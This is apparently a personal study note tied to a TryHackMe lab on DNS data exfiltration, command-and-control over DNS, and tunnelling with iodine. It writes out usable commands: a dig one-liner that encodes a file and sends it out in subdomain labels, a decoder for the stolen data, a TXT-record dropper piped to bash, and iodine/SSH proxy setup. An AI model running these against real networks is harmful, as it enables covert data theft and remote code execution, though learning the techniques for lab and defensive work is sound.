 # Data Exfiltration Over DNS

## Introduction and Configuration

DNS is the last big plain-text protocol of the last century in 2023. For more details about DNS go to the [[DNS]] article, otherwise we also require control of a domain name with DNS records including NS, A or TXT. [[Setup-DNS]] or you do the [subscriber only room THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt) where they have one setup to be configurable. The IP address you want to exfiltrate data to, in this article stated as variable `$exfil-to-IP`

To be successful:
1. Add an A record that points to the IP you want to exfiltrate data to:
	- `Type A, Subdomain Name: $subdomainnameNS, Value: $exfil-to-IP`
2. Add NS record that routes DNS queries to the A record above
	- `Type NS, Subdomain Name: $subdomainname, Value: $subdomainnameNS.$control_domain_name.com`

Like:

**DNS Record** | **Type** | **Value**
--- | --- | ---
`$subdomainnameNS`.domainname.com  | A   |  `$exfil-to-IP`
`$subdomainname`.domainname.com | NS | `$subdomainnameNS`.domainname.com

To resolve:
```bash
dig +short `$subdomainname.$domainname.com 
```

## Exfiltration Over DNS

The DNS protocol is allowed in almost all firewalls in any organisation network and is not regularly monitored. Although maximum length for FQDN (including '.' separators is 255 characters) and subdomain name (label) length must not exceed 63 characters (not including suffix .com, .net..) equating to a limited number of characters to transfer data over the **domain name**. Typical used when firewall blocks and filters all traffic, testing to TCP/UDP packets to check whether DNS is blocked by firewall or filters.

1. Register Domain Name
2. NS Record points to a server that Attacker controlled from within a network
3. Data is sent as  `D474.domain.com` the D474 is the data exfiltrated within the name
	1. Prior to sending, marshal D474 together
	2. Encode the file
	3. Split data to limitation of size constraints: total URL size 255; subdomain label 63 
	4. At the receiving end: `sudo tcpdump -i eth0 udp port 53 -v tcpdump`
	5. At sending end `cat D474.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.$subdomain.$domain.com/' | awk '{print "dig +short " $1}' | bash` ; optionally on one line add ` tr -d "\n"` between `sed` and `fold` command.
4. DNS request is sent through local DNS server to internet
5. Exfiltrate-To location receives DNS request
6. Extract of `D474` from the domain name.
7. `echo "$exfiltrated-data$.$subdomain.$domain_name.com." | cut -d"." -f1-8 | tr -d "." | base64 -d`

## C2 Communications over DNS 

For a listing of modern C2 see the [[C2-Matrix]] and [[Introduction-To-Command-And-Control-Frameworks]] if you require some basic understanding regard fundamentals of what a C2 is. Some C2 use DNS for communication and also use TXT DNS record to run a droppers to download files.

```bash
# $command-in-txt-records.domain.com
# C2 agent would request the TXT content to then format and decode it 
dig +short -t TXT $command-in-txt-records.$domain.com | tr -d "\"" | base64 -d | bash
```

## DNS Tunnelling (TCPoverDNS)

DNS tunnelling is a technique of encapsulating other protocols over the DNS protocol, this communication channel must be established one both ends of the tunnel. [iodine](https://github.com/yarrick/iodine) is a DNS tunnel written in C that can let you tunnel IPv4 data through a DNS server.

 To establish a DNS tunnel:
 1. Update DNS records, creating a new NS pointing to `$exfiltrate-to-location`
 2. Run `iodined` server from `$exfiltrate-to-location`
 3. Run `iodine` (no `d` in the iodine client) client from `$exfiltrate-from-location`
 4. SSH to `fill` on create network interface to create a proxy over DNS with `-D` flag to create dynamic port forwarding

WE can then use local IP, port as proxy in Firefox or Proxychains
```bash
# Create a new network interface dns0
# -f: foreground, -c: skip checking client IP for each DNS request, -P set password
# $IP/CIDR is set to network IP for the dns0; this is the addressing of dns0!
# I.e server will be 10.1.1.1 if $IP/$CIDR = 10.1.1.1/24 ; client will be 10.1.1.2
# Then provide a nameserver
sudo iodined -f -c -P <password> $IP/$CIDR $ns.$domain.com  
# Client to server:
sudo iodine -P $password $ns.$domain.com 
# Create dynamic port forward
ssh $user@10.1.1.2 -4 -f -N -D 1080
proxychains curl http://$ip/
# OR
curl --socks5 127.0.0.1:1080 http://$ip/
```


## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)
[iodine](https://github.com/yarrick/iodine) 